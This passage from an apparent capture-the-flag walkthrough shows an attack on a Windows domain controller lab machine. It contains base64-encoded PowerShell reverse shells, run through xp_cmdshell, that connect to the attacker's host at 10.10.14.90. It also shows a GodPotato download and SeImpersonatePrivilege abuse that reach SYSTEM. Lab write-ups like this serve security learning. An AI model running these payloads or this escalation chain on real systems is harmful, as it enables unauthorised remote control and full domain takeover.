SeCreateGlobalPrivilege       Create global objects                     Enabled    
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled   
NULL                                                                               
SQL (SCRM\administrator  dbo@ScrambleHR)> 
```
As seen here i have `SeImpersonatePrivilege`

```python
SQL (SCRM\administrator  dbo@ScrambleHR)> xp_cmdshell powershell -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQAwAC4AMQAwAC4AMQA0AC4AOQAwACIALAAxADMAMwA3ACkAOwAkAHMAdAByAGUAYQBtACAAPQAgACQAYwBsAGkAZQBuAHQALgBHAGUAdABTAHQAcgBlAGEAbQAoACkAOwBbAGIAeQB0AGUAWwBdAF0AJABiAHkAdABlAHMAIAA9ACAAMAAuAC4ANgA1ADUAMwA1AHwAJQB7ADAAfQA7AHcAaABpAGwAZQAoACgAJABpACAAPQAgACQAcwB0AHIAZQBhAG0ALgBSAGUAYQBkACgAJABiAHkAdABlAHMALAAgADAALAAgACQAYgB5AHQAZQBzAC4ATABlAG4AZwB0AGgAKQApACAALQBuAGUAIAAwACkAewA7ACQAZABhAHQAYQAgAD0AIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIAAtAFQAeQBwAGUATgBhAG0AZQAgAFMAeQBzAHQAZQBtAC4AVABlAHgAdAAuAEEAUwBDAEkASQBFAG4AYwBvAGQAaQBuAGcAKQAuAEcAZQB0AFMAdAByAGkAbgBnACgAJABiAHkAdABlAHMALAAwACwAIAAkAGkAKQA7ACQAcwBlAG4AZABiAGEAYwBrACAAPQAgACgAaQBlAHgAIAAkAGQAYQB0AGEAIAAyAD4AJgAxACAAfAAgAE8AdQB0AC0AUwB0AHIAaQBuAGcAIAApADsAJABzAGUAbgBkAGIAYQBjAGsAMgAgAD0AIAAkAHMAZQBuAGQAYgBhAGMAawAgACsAIAAiAFAAUwAgACIAIAArACAAKABwAHcAZAApAC4AUABhAHQAaAAgACsAIAAiAD4AIAAiADsAJABzAGUAbgBkAGIAeQB0AGUAIAA9ACAAKABbAHQAZQB4AHQALgBlAG4AYwBvAGQAaQBuAGcAXQA6ADoAQQBTAEMASQBJACkALgBHAGUAdABCAHkAdABlAHMAKAAkAHMAZQBuAGQAYgBhAGMAawAyACkAOwAkAHMAdAByAGUAYQBtAC4AVwByAGkAdABlACgAJABzAGUAbgBkAGIAeQB0AGUALAAwACwAJABzAGUAbgBkAGIAeQB0AGUALgBMAGUAbgBnAHQAaAApADsAJABzAHQAcgBlAGEAbQAuAEYAbAB1AHMAaAAoACkAfQA7ACQAYwBsAGkAZQBuAHQALgBDAGwAbwBzAGUAKAApAA==
```
Ive grabbed a powershell #3 (base64) shell from revshells.com

```python
penelope -p 1337                                                                                                                         
[+] Listening for reverse shells on 0.0.0.0:1337 -> 127.0.0.1 • 192.168.1.157 • 10.10.14.90
➤  🏠 Main Menu (m) 💀 Payloads (p) 🔄 Clear (Ctrl-L) 🚫 Quit (q/Ctrl-C)
[+] [New Reverse Shell] => DC1 10.129.20.49 Microsoft_Windows_Server_2019_Standard-x64-based_PC 👤 scrm\sqlsvc 😍️ Session ID <1>
[+] Added readline support...
[+] Interacting with session [1] • Readline • Menu key Ctrl-D ⇐
[+] Session log: /home/kali/.penelope/sessions/DC1~10.129.20.49-Microsoft_Windows_Server_2019_Standard-x64-based_PC/2026_04_16-18_13_47-514.log
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
PS C:\Windows\system32> whoami
scrm\sqlsvc
PS C:\Windows\system32> 
```
I now have a shell as `sqlsvc`

I can now work on getting a session as the domain admin!

## Domain admin via SeImpersonatePrivilege

My potato of choice is GodPotato so ill upload that to the target

https://github.com/BeichenDream/GodPotato

```python
python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

```python
PS C:\Users\sqlsvc\Documents> wget http://10.10.14.90:8000/GodPotato-NET4.exe -o godpotato.exe
PS C:\Users\sqlsvc\Documents> dir


    Directory: C:\Users\sqlsvc\Documents


Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
-a----       16/04/2026     18:36          57344 godpotato.exe                                                         


```
I now have godpotato

```python
PS C:\Users\sqlsvc\Documents> ./godpotato.exe -cmd 'cmd /c whoami'
[*] CombaseModule: 0x140711283916800
[*] DispatchTable: 0x140711286222912
[*] UseProtseqFunction: 0x140711285599440
[*] UseProtseqFunctionParamCount: 6
[*] HookRPC
[*] Start PipeServer
[*] CreateNamedPipe \\.\pipe\72f4f138-45f8-4af2-9662-dfdce1f29e45\pipe\epmapper
[*] Trigger RPCSS
[*] DCOM obj GUID: 00000000-0000-0000-c000-000000000046
[*] DCOM obj IPID: 00005402-05fc-ffff-4a6b-64ffb3f6d85c
[*] DCOM obj OXID: 0x494073d84e44df89
[*] DCOM obj OID: 0x21b9e6f2dc8441d4
[*] DCOM obj Flags: 0x281
[*] DCOM obj PublicRefs: 0x0
[*] Marshal Object bytes len: 100
[*] UnMarshal Object
[*] Pipe Connected!
[*] CurrentUser: NT AUTHORITY\NETWORK SERVICE
[*] CurrentsImpersonationLevel: Impersonation
[*] Start Search System Token
[*] PID : 900 Token:0x620  User: NT AUTHORITY\SYSTEM ImpersonationLevel: Impersonation
[*] Find System Token : True
[*] UnmarshalObject: 0x80070776
[*] CurrentUser: NT AUTHORITY\SYSTEM
[*] process start with pid 2008
nt authority\system
```
I am now nt authority system but ill try to get a shell

```python
penelope -p 1338           
[+] Listening for reverse shells on 0.0.0.0:1338 -> 127.0.0.1 • 192.168.1.157 • 10.10.14.90
➤  🏠 Main Menu (m) 💀 Payloads (p) 🔄 Clear (Ctrl-L) 🚫 Quit (q/Ctrl-C)
```
Ill set a listener

```python
PS C:\Users\sqlsvc\Documents> ./godpotato.exe -cmd 'cmd /c powershell -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQAwAC4AMQAwAC4AMQA0AC4AOQAwACIALAAxADMAMwA4ACkAOwAkAHMAdAByAGUAYQBtACAAPQAgACQAYwBsAGkAZQBuAHQALgBHAGUAdABTAHQAcgBlAGEAbQAoACkAOwBbAGIAeQB0AGUAWwBdAF0AJABiAHkAdABlAHMAIAA9ACAAMAAuAC4ANgA1ADUAMwA1AHwAJQB7ADAAfQA7AHcAaABpAGwAZQAoACgAJABpACAAPQAgACQAcwB0AHIAZQBhAG0ALgBSAGUAYQBkACgAJABiAHkAdABlAHMALAAgADAALAAgACQAYgB5AHQAZQBzAC4ATABlAG4AZwB0AGgAKQApACAALQBuAGUAIAAwACkAewA7ACQAZABhAHQAYQAgAD0AIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIAAtAFQAeQBwAGUATgBhAG0AZQAgAFMAeQBzAHQAZQBtAC4AVABlAHgAdAAuAEEAUwBDAEkASQBFAG4AYwBvAGQAaQBuAGcAKQAuAEcAZQB0AFMAdAByAGkAbgBnACgAJABiAHkAdABlAHMALAAwACwAIAAkAGkAKQA7ACQAcwBlAG4AZABiAGEAYwBrACAAPQAgACgAaQBlAHgAIAAkAGQAYQB0AGEAIAAyAD4AJgAxACAAfAAgAE8AdQB0AC0AUwB0AHIAaQBuAGcAIAApADsAJABzAGUAbgBkAGIAYQBjAGsAMgAgAD0AIAAkAHMAZQBuAGQAYgBhAGMAawAgACsAIAAiAFAAUwAgACIAIAArACAAKABwAHcAZAApAC4AUABhAHQAaAAgACsAIAAiAD4AIAAiADsAJABzAGUAbgBkAGIAeQB0AGUAIAA9ACAAKABbAHQAZQB4AHQALgBlAG4AYwBvAGQAaQBuAGcAXQA6ADoAQQBTAEMASQBJACkALgBHAGUAdABCAHkAdABlAHMAKAAkAHMAZQBuAGQAYgBhAGMAawAyACkAOwAkAHMAdAByAGUAYQBtAC4AVwByAGkAdABlACgAJABzAGUAbgBkAGIAeQB0AGUALAAwACwAJABzAGUAbgBkAGIAeQB0AGUALgBMAGUAbgBnAHQAaAApADsAJABzAHQAcgBlAGEAbQAuAEYAbAB1AHMAaAAoACkAfQA7ACQAYwBsAGkAZQBuAHQALgBDAGwAbwBzAGUAKAApAA=='
```
Once again ill use a revshell from revshells.com powershell #3 with bas64 encoding

```python
penelope -p 1338           
[+] Listening for reverse shells on 0.0.0.0:1338 -> 127.0.0.1 • 192.168.1.157 • 10.10.14.90
➤  🏠 Main Menu (m) 💀 Payloads (p) 🔄 Clear (Ctrl-L) 🚫 Quit (q/Ctrl-C)
[+] [New Reverse Shell] => DC1 10.129.20.49 Microsoft_Windows_Server_2019_Standard-x64-based_PC 👤 nt authority\system 😍️ Session ID <1>
[+] Added readline support...
[+] Interacting with session [1] • Readline • Menu key Ctrl-D ⇐
[+] Session log: /home/kali/.penelope/sessions/DC1~10.129.20.49-Microsoft_Windows_Server_2019_Standard-x64-based_PC/2026_04_16-18_41_56-761.log
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
PS C:\Users\sqlsvc\Documents> whoami
nt authority\system
PS C:\Users\sqlsvc\Documents> cd ../../Administrator
PS C:\Users\Administrator> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                            Description                                                        State   
========================================= ================================================================== ========
SeAssignPrimaryTokenPrivilege             Replace a process level token                                      Disabled
SeLockMemoryPrivilege                     Lock pages in memory                                               Enabled 
SeIncreaseQuotaPrivilege                  Adjust memory quotas for a process                                 Disabled
SeTcbPrivilege                            Act as part of the operating system                                Enabled 
SeSecurityPrivilege                       Manage auditing and security log                                   Disabled
SeTakeOwnershipPrivilege                  Take ownership of files or other objects                           Disabled
SeLoadDriverPrivilege                     Load and unload device drivers                                     Disabled
SeSystemProfilePrivilege                  Profile system performance                                         Enabled 
SeSystemtimePrivilege                     Change the system time                                             Disabled
SeProfileSingleProcessPrivilege           Profile single process                                             Enabled 
SeIncreaseBasePriorityPrivilege           Increase scheduling priority                                       Enabled 
SeCreatePagefilePrivilege                 Create a pagefile                                                  Enabled 
SeCreatePermanentPrivilege                Create permanent shared objects                                    Enabled 
SeBackupPrivilege                         Back up files and directories                                      Disabled
SeRestorePrivilege                        Restore files and directories                                      Disabled
SeShutdownPrivilege                       Shut down the system                                               Disabled
SeDebugPrivilege                          Debug programs                                                     Enabled 
SeAuditPrivilege                          Generate security audits                                           Enabled 
SeSystemEnvironmentPrivilege              Modify firmware environment values                                 Disabled
SeChangeNotifyPrivilege                   Bypass traverse checking                                           Enabled 
SeUndockPrivilege                         Remove computer from docking station                               Disabled
SeManageVolumePrivilege                   Perform volume maintenance tasks                                   Disabled
SeImpersonatePrivilege                    Impersonate a client after authentication                          Enabled 
SeCreateGlobalPrivilege                   Create global objects                                              Enabled 
SeIncreaseWorkingSetPrivilege             Increase a process working set                                     Enabled 
SeTimeZonePrivilege                       Change the time zone                                               Enabled 
SeCreateSymbolicLinkPrivilege             Create symbolic links                                              Enabled 
SeDelegateSessionUserImpersonatePrivilege Obtain an impersonation token for another user in the same session Enabled 
PS C:\Users\Administrator> 
```
Now i get a shell as `nt authority system`

Domain admin and full domain compromise!
